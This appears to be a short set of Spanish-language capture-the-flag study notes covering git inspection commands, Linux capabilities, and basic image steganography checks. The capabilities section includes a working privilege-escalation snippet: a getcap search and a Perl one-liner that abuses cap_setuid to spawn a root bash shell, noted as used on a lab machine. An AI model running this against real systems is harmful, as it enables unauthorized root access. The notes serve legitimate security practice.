 ```
#Para ver toda la actividad

git log

## Para ver las ramas

git branch

# Para ver los cambios en un commit en especifico

git show <commit-hash>


```


## Linux capabliities


En Linux, las "capabilities" son un conjunto de privilegios más granulares que permiten a los procesos ejecutarse con ciertos privilegios sin necesidad de otorgarles todos los privilegios de superusuario (root). Esto proporciona una forma de controlar los permisos de manera más precisa y reducir el riesgo de seguridad asociado con la ejecución de procesos con privilegios completos de root.

Para ver las capabilities usa:

```
getcap -r / 2>/dev/null

## Por ejemplo esta la use en la maquina nunchucks

/usr/bin/perl = cap_setuid+ep

# Para escalar privilegios

#!/usr/bin/perl
use POSIX;
setuid(0);
exec "/bin/bash";

```

## Stenografia

```
strings onm.jpg -n 10 #Lineas que tengan mas de 10 caracteres

```

Para ver los metadatos

```
exiftool omg.jpg
```
